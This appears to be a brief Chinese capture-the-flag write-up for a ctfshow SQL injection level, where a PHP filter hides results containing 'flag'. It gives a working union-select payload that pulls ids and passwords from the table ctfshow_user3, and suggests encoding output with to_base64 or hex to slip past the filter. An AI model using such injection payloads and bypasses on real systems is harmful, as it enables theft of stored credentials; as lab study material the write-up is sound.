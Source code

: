 # 知识点
过滤ctf字符串
# 思路
```php
//检查结果是否有flag
    if(!preg_match('/flag/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```
### 方法一
不查询username字段
```plsql
1' union select 1,2,group_concat(id,0x7e,password) from ctfshow_user3 where id =26  --+
```
### 方法二
我们还可以使用to_base64或则hex函数进行加密过滤
